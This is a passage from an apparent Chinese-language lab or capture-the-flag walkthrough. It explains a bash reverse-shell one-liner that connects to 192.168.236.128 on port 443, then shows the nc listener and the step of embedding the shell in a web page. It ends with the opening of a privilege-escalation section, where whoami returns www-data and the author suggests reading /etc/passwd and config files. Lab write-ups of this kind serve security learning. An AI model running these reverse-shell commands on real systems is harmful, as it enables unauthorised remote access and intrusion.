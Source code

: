 `-c`这是Bash的一个选项，表示后面跟着的字符串会被当作一个命令来执行


`'bash -i >& /dev/tcp/192.168.236.128/443 0>&1'`这个字符串是传递给Bash的命令。我们再进一步解析：


`bash -i`


`bash`：启动一个新的Bash shell。`-i`：表示以交互模式运行Bash shell。


`>&`：这是一个重定向操作符，用于将标准输出（stdout）和标准错误（stderr）合并并重定向到指定的目标。


`/dev/tcp/192.168.236.128/443`：这是一个特殊的文件描述符，表示通过TCP协议连接到IP地址为 `192.168.236.128` 的主机，端口为 `443`。


**`0>&1`**


`0`：表示标准输入（stdin）。


`>&1`：表示将标准输入（stdin）重定向到标准输出（stdout）的文件描述符。


[![](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241123114735091-2051997584.png)](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241123114735091-2051997584.png)


嵌入，保存后在kali上开启监听



```
sudo nc -lvnp 443
```

[![](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241123114739909-1834985710.png)](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241123114739909-1834985710.png)


再去访问Artical 反弹shell成功


[![](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241123114745911-2053286879.png)](https://img2024.cnblogs.com/blog/3409507/202411/3409507-20241123114745911-2053286879.png)


## 提权


### 信息收集


先看一下得到的权限能干什么，有什么权限，在这个权限下能看到的文件等信息，这里我建议最好把整个shell的所有能访问到的东西都先浏览一遍，把他的文件结构都搞清楚，要知道他有没有什么可以访问的配置文件config等，/etc/passwd这种重要的目录也要去尝试一下有没有权限打开，里面是否有我们感兴趣的内容



```
whoami
```

可以看到现在的用户是www\-data

